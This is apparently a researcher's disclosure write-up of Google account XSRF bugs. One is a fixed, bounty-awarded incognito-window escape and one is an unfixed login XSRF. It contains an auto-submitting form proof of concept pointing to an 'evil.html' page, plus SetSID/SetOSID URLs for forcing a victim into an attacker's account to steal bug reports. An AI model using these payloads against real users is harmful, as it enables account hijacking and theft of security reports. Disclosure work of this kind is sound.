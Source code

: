 ```yaml
---
title: Google Accounts/GAIA XSRF
---
```


# Go Incognito XSRF (Fixed, Awarded $3000)

`SignOutOptions` has a feature where it will open an Android incognito window to a custom URL that does not inherit the sandbox or close the file picker dialog (spoof)

```js
Frame = document.createElement('iframe');
Frame.sandbox = 'allow-popups allow-forms allow-scripts';
```

```html
<form action="https://accounts.google.com/SignOutOptions?continue=https://www.google.com/amp/a/s/ndev.tk/evil.html" method="post">
  <input type="submit" name="incognito" value="1" />
</form>
<script>
  document.querySelector("input").click();
</script>
```

[escape video](https://drive.google.com/open?id=1SOLqCApjT__KfW45MT2MCVYJGO_iHHnY&authuser=0)
[sandbox filepicker video](https://drive.google.com/open?id=1xV1RwHDIvJvjoaTxrwRPnV85DSDFlzAi&authuser=0)


The first patch used `google_util::IsGoogleAssociatedDomainUrl` thats bypassable since Google hosts user generated content on `gstatic.com` (Or used to via XSS), `storage.googleapis.com` (Storage buckets) and `googleusercontent.com` (`ip.bc.googleusercontent.com`), I did not verify if insecure `http://` pages work.

# Login XSRF (WONTFIX/INFEASIBLE)

Both issue trackers don't verify if the victim initiated the login which allows the attacker to force a login to their account, No `document.cookie =` needed :)  
<https://issues.chromium.org/accounts/SetOSID> (Via: `https://accounts.google.com/ServiceLogin?osid=1&continue=https%3A%2F%2Fissues.chromium.org`)  
<https://bugs.chromium.org/_ah/conflogin?state=> (Via: `https://uc.appengine.google.com/_ah/conflogin?state=`)  
Some more examples...

- `https://accounts.googlesource.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://chromium.googlesource.com/login/angle/?pli%3D1%26authuser%3D1`
- `https://accounts.blogger.com/accounts/SetSID?ssdc=1&sidt=<Token>&continue=https://www.blogger.com/home?pli%3D1%26authuser%3D1`
- `https://flash.android.com/accounts/SetOSID?authuser=0&continue=https://flash.android.com/?pli%3D1%26authuser%3D0&osidt=<Token>`

Worth mentioning since the token is not connected to a session, browser extensions with the Tabs permission but no host permission gain account takeover; it's a feature.

Once the victim is on the attackers account any security issues reported via the standard <https://bugs.chromium.org/p/chromium/issues/wizard> page (ideally bookmarked) will be sent to the attackers email and if all goes well there be able to steal that 0day and get the reward (very unlikely) from Chromium VRP!

They are aware of the fact that login XSRF is possible in some cases. Unfortunately, they have a clear plan to fix it at this time.
